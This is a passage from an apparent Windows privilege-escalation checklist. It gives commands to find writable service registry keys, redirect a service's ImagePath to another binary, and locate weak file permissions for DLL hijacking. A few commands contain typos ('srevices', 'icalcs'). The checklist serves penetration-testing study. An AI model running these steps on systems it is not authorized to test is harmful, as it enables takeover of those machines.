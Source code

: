         ```
         reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services
        #Try to write every service with its current content (to check if you have write permissions)
        for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

         get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"

        # if Authenticated Users or NT AUTHORITY\INTERACTIVE have FullControl
        # it can be leveraged to change the binary path inside the registry
         reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
        ```
* [ ] Installed applications
  *   [ ] DLL Hijacking for installed applications

      ```
       dir /a "C:\Program Files"
       dir /a "C:\Program Files (x86)"
       reg query HKEY_LOCAL_MACHINE\SOFTWARE

       Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
       Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
      ```
  *   [ ] Write permissions

      ```
       # using accesschk.exe
       accesschk.exe /accepteula
       # Find all weak folder permissions per drive.
       accesschk.exe -uwdqs Users c:\
       accesschk.exe -uwdqs "Authenticated Users" c:\
       accesschk.exe -uwdqs "Everyone" c:\

       # Find all weak file permissions per drive.
       accesschk.exe -uwqs Users c:\*.*
       accesschk.exe -uwqs "Authenticated Users" c:\*.*
       accesschk.exe -uwdqs "Everyone" c:\*.*

       # using icalcs
       icacls "C:\Program Files\*" 2>nul | findstr "(F) (M) :\" | findstr ":\ everyone authenticated users todos %username%"
       icacls ":\Program Files (x86)\*" 2>nul | findstr "(F) (M) C:\" | findstr ":\ everyone authenticated users todos %username%"
